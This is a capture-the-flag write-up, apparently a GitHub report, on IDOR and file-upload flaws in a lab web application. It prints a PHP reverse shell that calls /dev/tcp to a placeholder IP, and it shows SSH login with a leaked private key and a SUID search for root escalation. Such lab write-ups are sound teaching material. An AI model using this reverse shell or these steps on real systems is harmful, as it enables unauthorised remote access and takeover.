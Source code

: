 # Quizizz CTF

**Report Title**: Critical IDOR & Remote Code Execution Vulnerabilities in Target Web Application

**Report Date**: 2025-06-20

**Prepared by**: Pritam Suryawanshi

**Target Website**: `http://13.233.145.109`

---

## Summary

This report documents two critical security vulnerability identified in the target web application.

1. **IDOR** - On the `Feedback ID` parameter that expose sensitive data.
2. **Unrestricted File Upload**, allowing user to upload and execute malicious files.

---

## Proof of Concept

- Endpoint:  `/feedback.php?id=3`

![PHP Payload](./images/PHP-Payload.png)

- This is a  base64 encoded php revereshell  code

---

```php
<?php
exec("sh -i >& /dev/tcp/IP/4444 0>&1");
?>   
```

- Endpoint:  `/feedback.php?id=4`

![id_rsa file](./images/ssh-private-key.png)

- This is a private key for SSH Authentication

---

# Technical Evidence

## Nmap Scan

```bash
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
|_ssh-hostkey: 

80/tcp open  tcpwrapped
|_http-server-header: Apache/2.4.58 (Ubuntu)
```

## Unauthorized SSH Access

```bash
ssh -i id_rsa ctfplayer@IP
```

## FLAG-1

![Flag-1](./images/flag1.png)

## FLAG-2

- To get this flag we need root privilege

```bash
# Find all SUID files 
find / -perm -4000 2>/dev/null

# Using notepad we can get a root priv
cd /home/ctfplayer/folder3/notepad
./notepad
```

![Flag-2](./images/root.png)

## FLAG-3

- This flag is base64 encoded.

```bash
RkxBR3tIZXJlX3lvdXJfZGVjb2RlZF9GbGFnfQ==

# Deocde 
echo "RkxBR3tIZXJlX3lvdXJfZGVjb2RlZF9GbGFnfQ==" | base64 -d
```

![Flag-3](./images/flag3.png)